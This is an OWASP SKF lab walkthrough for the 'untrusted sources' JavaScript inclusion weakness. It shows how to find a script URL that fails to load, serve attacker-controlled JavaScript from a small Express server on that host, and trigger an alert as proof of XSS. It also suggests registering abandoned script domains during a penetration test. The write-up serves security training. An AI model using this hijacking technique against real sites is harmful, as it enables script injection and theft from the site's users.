 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:untrusted-sources-js
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:untrusted-sources-js
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](../../.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use nodeJs this time:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname));
app.use(express.urlencoded({ extended: true }));

app.get("/:path", (req, res) => {
  res.sendFile("/script_provider/" + req.params.path);
});

const port = process.env.PORT || 8081;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script_provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
npm install express
node script_provider.js
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](../../.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
